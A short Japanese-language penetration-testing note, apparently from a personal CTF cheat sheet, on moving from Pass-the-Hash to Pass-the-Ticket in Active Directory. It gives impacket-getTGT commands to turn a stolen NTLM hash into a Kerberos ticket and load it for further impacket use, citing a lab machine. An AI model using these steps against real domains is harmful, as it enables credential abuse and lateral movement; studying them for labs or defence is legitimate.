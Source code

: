 # Pass The Hashがいけそでいけねー場合はPass The Ticketを狙うべし

Kerberosチケットでの認証は許可されていて、NTLMでの認証は許可されていないかも。

**impacket-getTGT** でハッシュからTGTを作成。

```
impacket-getTGT -hashes <NTLM hash> -dc-ip <IP> <domain>/<username>
```

その後、チケットがつくれてuser.ccacheに保存されたら、以下のようにチケットを登録する：

```
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
```

チケットができたら、今までpass the hashでやっていたimpacketを、このチケットをつかって行えばよい（オプション **-no-pass -k**）。

Aptではbruteforceした：

![gettgtbrute](https://user-images.githubusercontent.com/85237728/159113359-050c0e98-259d-406a-aff3-7230cc59e61a.png)

c.f. https://www.thehacker.recipes/ad/movement/kerberos/ptk

![gotticket](https://user-images.githubusercontent.com/85237728/159119239-5d4bf0fc-c1ed-4e54-9b3c-d47a97ff4ae1.png)

![klist](https://user-images.githubusercontent.com/85237728/159119325-89e415d6-1ce0-4296-930a-093bd0adb96d.png)
